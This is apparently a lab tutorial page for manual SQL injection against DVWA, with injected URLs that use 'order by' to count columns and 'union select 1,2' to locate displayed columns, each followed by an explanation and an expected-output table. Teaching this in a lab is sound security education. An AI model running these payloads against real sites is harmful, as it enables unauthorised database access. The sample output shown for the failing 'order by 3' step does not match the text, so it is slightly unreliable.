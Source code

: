 * Browser or HTTP client
* DVWA (Damn Vulnerable Web Application) setup or local vulnerable environment
* MySQL database backend
* No automated tools are required for manual SQL injection

---

## 5. Basic SQL Injection Steps

### Step 1: Finding the Number of Columns

**Purpose:** Find how many columns are in the SELECT statement.

**Injected URL:**
```
http://example.com/vulnerable.php?id=5' order by 2 --+&Submit=Submit
```

**How it works:**
* The `'` closes the original string.
* `order by 2` asks the database to sort by the second column.
* `--+` comments out the rest.

**Test further with:**
```
http://example.com/vulnerable.php?id=5' order by 3 --+&Submit=Submit
```

**Expected Output:**

| ID | First name | Surname |
|----|------------|---------|
| 5  | Bob        | Smith   |

If `ORDER BY 3` produces an error like "Unknown column", it confirms there are **2 columns**.

---

### Step 2: Finding Injectable Columns

**Purpose:** Identify which columns are displayed to the user.

**Injected URL:**
```
http://example.com/vulnerable.php?id=5' union select 1,2 --+&Submit=Submit
```

**How it works:**
* Combines the result of the original query with another query.
* The attacker uses dummy values `1,2` to see where they appear.

**Expected Output:**

| ID | First name | Surname |
|----|------------|---------|
| 5  | Bob        | Smith   |
| 5  | 1          | 2       |
